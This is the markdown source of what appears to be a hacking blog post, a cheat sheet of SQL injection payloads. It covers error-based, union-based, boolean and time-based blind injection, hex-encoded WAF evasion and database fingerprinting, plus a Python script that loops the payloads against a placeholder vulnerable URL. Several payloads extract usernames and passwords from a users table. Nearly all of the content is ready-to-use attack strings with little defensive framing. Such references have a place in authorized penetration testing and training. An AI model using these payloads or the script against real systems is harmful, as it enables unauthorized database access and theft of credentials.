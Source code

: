 ```yaml
---
title: "Advanced SQLi Payloads and Techniques"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
author: 'Ren'
authorlink: 'https://about.0x0060.dev/'
---
```


## Error-Based SQL Injection

### Advanced Error Payloads

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- -
```

## Union-Based Injection

### Determining the Number of Columns

```
' UNION SELECT NULL, NULL, NULL, NULL -- 
```

### Extracting Data

```
' UNION SELECT username, password, NULL, NULL FROM users -- 
```

## Blind SQL Injection

### Boolean-Based Blind

```
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) -- 
```

### Time-Based Blind

```
' AND IF(1=1, SLEEP(5), 0) -- 
```

## Second-Order SQL Injection

### Injection in Profile Information

Modify data stored in one place to affect queries executed elsewhere.

## Advanced Union-Based SQL Injection

### Union-Based Error Handling

Generate detailed error messages by crafting complex payloads:

```
' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) --
```

### Union with Hex Encoding

Encode parts of your query to evade WAFs:

```
' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() --
```

### Multi-Query Union Injection

Leverage multiple queries to extract more data:

```
' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() --
```

### Union-Based Cross Database Extraction

Combine data from different databases (when supported):

```
' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() --
```

## Advanced Boolean-Based SQL Injection

### Time-Based Boolean Injection with Conditional Responses

Use time delays to infer data based on conditional responses:

```
' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) --
```

### Nested Boolean Injections

Nest conditions to extract specific data:

```
' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) --
```

### Error-Based Boolean Injection

Force errors conditionally to reveal information:

```
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) --
```

### Using Bitwise Operations

Use bitwise operations for more obfuscation and complexity:

```
' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) --
```

## Combining Techniques

### Example: Union with Time-Based Injection

Create a payload that uses both union and time-based injections:

```
' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 --
```

### Example: Nested Union and Boolean Injection

Combine nested boolean conditions with union-based data extraction:

```
' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 --
```

## Automating with Custom Scripts

### Example: Python Script for Advanced Union Injection

```py
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # Advanced Union-Based Injections
    "' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) -- ",
    "' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() -- ",
    "' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() -- ",
    "' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() -- ",
    # Advanced Boolean-Based Injections
    "' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) -- ",
    "' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) -- ",
    "' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) -- ",
    "' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) -- ",
    # Combined Techniques
    "' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 -- ",
    "' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```

## Advanced Enumeration

### Database Fingerprinting

#### MySQL

```
' OR 1=1 AND @@version -- 
```

#### PostgreSQL

```
' OR 1=1 AND version() -- 
```

#### MSSQL

```
' OR 1=1 AND @@version -- 
```

### Column Enumeration

Determine the Number of Columns:

```
' ORDER BY 1 -- 
' ORDER BY 2 -- 
```

Extract Column Names:

```
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' -- 
```

### Advanced Data Extraction

Combine Multiple Rows into a Single Output:

```
' UNION SELECT GROUP_CONCAT(username, 0x3a, password) FROM users -- 
```
